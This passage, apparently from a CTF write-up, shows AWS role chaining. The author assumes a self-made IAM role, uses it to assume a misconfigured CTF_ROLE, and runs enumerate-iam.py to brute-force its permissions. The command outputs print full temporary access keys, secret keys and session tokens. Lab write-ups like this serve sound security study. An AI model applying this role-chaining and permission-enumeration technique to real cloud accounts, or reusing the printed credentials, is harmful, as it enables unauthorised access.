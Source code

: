 Then I just assume that role I just created : 
```json
aws sts assume-role --role-arn 'arn:aws:iam::509530203012:role/kaiziron-Accessing_Tet_CTF_Flag1' --role-session-name kaiziron-Accessing_Tet_CTF_Flag1
{
    "Credentials": {
        "AccessKeyId": "ASIAXNIS54OCATXMILEM",
        "SecretAccessKey": "iC/IdpU8nLrVKSQy0ZWECWK0jLEhN8S7ORoy2shH",
        "SessionToken": "FwoGZXIvYXdzEFIaDK+/5Ep+5h3rYloZmSLEASg0RyPdc6vE8o6HbfOY9rTngXbXFusRrWBI957bsupUWJR4EWF18X1eGWp0zTB6NPw8QvV+8dwrdDJTnN3p5M5lIS5JhIGlJy6k2bWIOFg+jbjLNWeN7J2H/fw5xqSYq7ouWO6uqWW816zOYvkQzaL7rC4xOwabm7PY/BZeKJ/ufrhh943i5hAQp7LsXIeI3L51X18voDFNxHyXXdF5llUUt6NtsxNL4FqSe9qjJNAhNtJD8puRK0VFNtXeunqdjzzHS74oxp/HjgYyLc3jL7NMMctPZLUwhyJfGyvpN2yckB98xsXIB8wj5XZAob8d7X/zO63VNSaOrQ==",
        "Expiration": "2022-01-02T17:16:06Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAXNIS54OCABZLMIZSM:kaiziron-Accessing_Tet_CTF_Flag1",
        "Arn": "arn:aws:sts::509530203012:assumed-role/kaiziron-Accessing_Tet_CTF_Flag1/kaiziron-Accessing_Tet_CTF_Flag1"
    }
}
```

Then I just create another profile using the access key, secret key and the session token above

Using that role which match the condition, we can assume the CTF_ROLE because of its misconfiguration : 

```json
aws sts assume-role --role-arn 'arn:aws:iam::509530203012:role/CTF_ROLE' --role-session-name kaiziron-Accessing_Tet_CTF_Flag1 --profile tetctf2
{
    "Credentials": {
        "AccessKeyId": "ASIAXNIS54OCJUV3JOH4",
        "SecretAccessKey": "8uFq78MyTml9Uze8AzMuw94LQo29wmzgspSDC3wX",
        "SessionToken": "FwoGZXIvYXdzEFIaDOfZXuz+NaSmJcoz0SLEAYxKhJuhMQpuunIbEmp6M1ObHpgYbihCOM/JGod/iOBCGTuhV40kSAGfb3lNQITH9HKMBH5cAqRzFlDm8tXDNdH5r7QfiItf/AM4QThYGHVyXkTJYGSfeqY1epfM++j4yCiiCZfsVldIdnZDu2HSa0c66bckSOXanI37hp9RVmsXrvJbzX2ovsohLUy74dXmTXufa+Rcj3BrKXnI1/hwTycmwM+UX4ITStvh4EFiIBbxSGf9SDOklu2bF+D3uv3TIS9OsWUosKDHjgYyLe1gnguZD6/zLC8sgPxM+fiVmVK6qe4ZsUEtYlHftp9LhgCHTvPBvi5WZUS++Q==",
        "Expiration": "2022-01-02T17:17:52Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAXNIS54OCL3NLUWKHX:kaiziron-Accessing_Tet_CTF_Flag1",
        "Arn": "arn:aws:sts::509530203012:assumed-role/CTF_ROLE/kaiziron-Accessing_Tet_CTF_Flag1"
    }
}
```

Then I just use these new keys and token to continue.

I used that tool again to see if we have other permission over that AWS account using this CTF_ROLE :
```
python3 enumerate-iam.py --access-key ASIAXNIS54OCJUV3JOH4 --secret-key 8uFq78MyTml9Uze8AzMuw94LQo29wmzgspSDC3wX --session-token FwoGZXIvYXdzEFIaDOfZXuz+NaSmJcoz0SLEAYxKhJuhMQpuunIbEmp6M1ObHpgYbihCOM/JGod/iOBCGTuhV40kSAGfb3lNQITH9HKMBH5cAqRzFlDm8tXDNdH5r7QfiItf/AM4QThYGHVyXkTJYGSfeqY1epfM++j4yCiiCZfsVldIdnZDu2HSa0c66bckSOXanI37hp9RVmsXrvJbzX2ovsohLUy74dXmTXufa+Rcj3BrKXnI1/hwTycmwM+UX4ITStvh4EFiIBbxSGf9SDOklu2bF+D3uv3TIS9OsWUosKDHjgYyLe1gnguZD6/zLC8sgPxM+fiVmVK6qe4ZsUEtYlHftp9LhgCHTvPBvi5WZUS++Q==
2022-01-03 00:21:08,540 - 78019 - [INFO] Starting permission enumeration for access-key-id "ASIAXNIS54OCJUV3JOH4"
2022-01-03 00:21:10,032 - 78019 - [INFO] -- Account ARN : arn:aws:sts::509530203012:assumed-role/CTF_ROLE/kaiziron-Accessing_Tet_CTF_Flag1
2022-01-03 00:21:10,032 - 78019 - [INFO] -- Account Id  : 509530203012
2022-01-03 00:21:10,032 - 78019 - [INFO] -- Account Path: assumed-role/CTF_ROLE/kaiziron-Accessing_Tet_CTF_Flag1
2022-01-03 00:21:12,166 - 78019 - [INFO] Attempting common-service describe / list brute force.
2022-01-03 00:21:15,718 - 78019 - [INFO] -- dynamodb.describe_endpoints() worked!
```